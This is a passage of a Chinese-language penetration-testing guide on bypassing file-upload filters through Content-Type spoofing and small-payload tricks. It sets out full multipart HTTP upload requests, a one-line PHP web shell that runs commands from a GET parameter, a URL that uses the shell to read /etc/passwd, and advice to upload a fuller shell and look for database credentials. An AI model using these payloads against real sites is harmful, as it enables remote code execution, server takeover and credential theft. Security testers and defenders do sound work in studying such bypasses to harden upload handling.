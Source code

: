 ```
检查，尝试其他绕过方法。
```



## 测试案例3：Content-Type 验证

```
1. 找到上传请求并将其发送到repeater
2. 上传 file.php 文件，并将 Content-type: application/x-php 或 Content-Type: application/octet-stream 更改为 Content-type: image/png 或 Content-type: image/gif 或 Content-type: image/jpg

POST /images/upload/ HTTP/1.1
Host: target.com
[...]

--------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.php"
Content-Type: application/x-php

3. 如果成功，则进一步利用，或者可能存在其他类型的验证或
检查，因此请尝试其他绕过方法。
```



## 测试案例4：Content-Length 验证

```
1. 找到上传请求并将其发送到reapter
2. 首先尝试以上三种绕过方法，如果无效，则检查文件大小是否已检查。结合尝试以上四种方法，以提高成功率。

POST /images/upload/ HTTP/1.1
Host: target.com
[...]

---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.php"
Content-Type: application/x-php

[...]

3. 尝试小文件负载，例如

<?=`$_GET[x]`?>
<?=‘ls’; 注意：<? 适用于 php.ini 文件中的“short_open_tag=On”（默认值为 On）。

4. 最终请求应如下所示。如果成功，请尝试访问此文件
例如：http://example.com/compromised_file.php?x=cat%20%2Fetc%2Fpasswd

POST /images/upload/ HTTP/1.1
Host: target.com
[...]

--------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.php"
Content-Type: application/x-php

<?=`$_GET[x]`?>

5. 不要止步于此，上传更好的shell，看看能否找到更关键的内容，例如DB_。
```
